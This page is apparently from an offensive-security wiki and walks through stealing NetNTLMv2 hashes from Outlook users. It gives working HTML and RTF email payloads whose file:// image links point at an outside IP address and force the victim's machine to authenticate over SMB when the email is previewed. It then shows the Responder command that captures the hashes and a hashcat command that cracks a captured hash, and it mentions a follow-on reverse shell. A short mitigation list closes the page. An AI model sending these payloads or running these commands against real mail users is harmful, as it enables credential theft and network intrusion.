 # NetNTLMv2 hash stealing using Outlook

## Context

If a target system is not running the latest version of Windows/Outlook, it may be possible to craft such an email that allows an attacker to steal the victim's NetNTLMv2 hashes without requiring any interaction from the user - clicking the email to preview it is enough for the hashes to be stolen.

{% hint style="warning" %}
Note that this attack does not work on the most up to date version of Windows 10 and Outlook 2016 versions, so like always - patch early and often.
{% endhint %}

## Weaponization

Let's create a new HTML file with the below:

{% code-tabs %}
{% code-tabs-item title="message.html" %}
```markup
<html>
    <h1>holla good sir</h1>
    <img src="file://157.230.60.143/download.jpg">
</html>
```
{% endcode-tabs-item %}
{% endcode-tabs %}

An RTF file also works:

{% code-tabs %}
{% code-tabs-item title="message.rtf" %}
```javascript
{\rtf1{\field{\*\fldinst {INCLUDEPICTURE "file://157.230.60.143/test.jpg" \\* MERGEFORMAT\\d}}{\fldrslt}}}
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Then insert a new file by clicking the attachment icon at the top on the window title bar:

![](../../.gitbook/assets/screenshot-from-2018-12-28-15-09-57.png)

Select the malicious messge.html and select `Insert as Text`:

![](../../.gitbook/assets/screenshot-from-2018-12-28-15-11-07.png)

You should see that your message now looks like an HTML with a broken image \(expected in our case since the path to the image is fake\):

![](../../.gitbook/assets/screenshot-from-2018-12-28-15-11-47.png)

## Execution

Fire up `Responder` to listen for incoming SMB authentication requests from the victim

{% code-tabs %}
{% code-tabs-item title="attacker@kali" %}
```csharp
responder -I eth1 -v
```
{% endcode-tabs-item %}
{% endcode-tabs %}

..and send the malicious email to the victim.

## Victim View

Once the victim opens their Outlook and clicks on the malicious email to preview it, their machine will attempt authenticating to the attacker controlled server \(running Responder\). This will give away the victim's `NetNTLMv2` hashes to the attacker, which they can then attempt at cracking:

![](../../.gitbook/assets/peek-2018-12-28-15-05.gif)

Once the hash is stolen, we can attempt cracking it:

{% code-tabs %}
{% code-tabs-item title="attacker@kali" %}
```csharp
hashcat -m5600 'spotless::OFFENSE:6bdb56c8140cf8dc:FFEF94D55C2EB2DE8CF13F140687AD7A:0101000000000000A5A01FB2BE9ED401114D47C1916811640000000002000E004E004F004D00410054004300480001000A0053004D0042003100320004000A0053004D0042003100320003000A0053004D0042003100320005000A0053004D004200310032000800300030000000000000000000000000200000407D7D30819F03909981529F6ACA84502CFCC8B3555DBA34316F8914973DD03C0A0010000000000000000000000000000000000009001A0063006900660073002F00310030002E0030002E0030002E0035000000000000000000' -a 3 /usr/share/wordlists/rockyou.txt --force --potfile-disable
```
{% endcode-tabs-item %}
{% endcode-tabs %}

In this case, we can see the user had a ridiculously simple password, which got cracked immediately:

![](../../.gitbook/assets/screenshot-from-2018-12-28-15-16-46.png)

The next step would be to use Ruler to gain a reverse shell from the victims corporate network:

{% page-ref page="password-spraying-outlook-web-access-remote-shell.md" %}

## Mitigation

* Patch Windows and Outlook
* Block outgoing SMB connections to the Internet
* Read emails in plain text
* Enforce strong passwords

## References

{% embed url="https://www.nccgroup.trust/uk/about-us/newsroom-and-events/blogs/2018/may/smb-hash-hijacking-and-user-tracking-in-ms-outlook/" %}

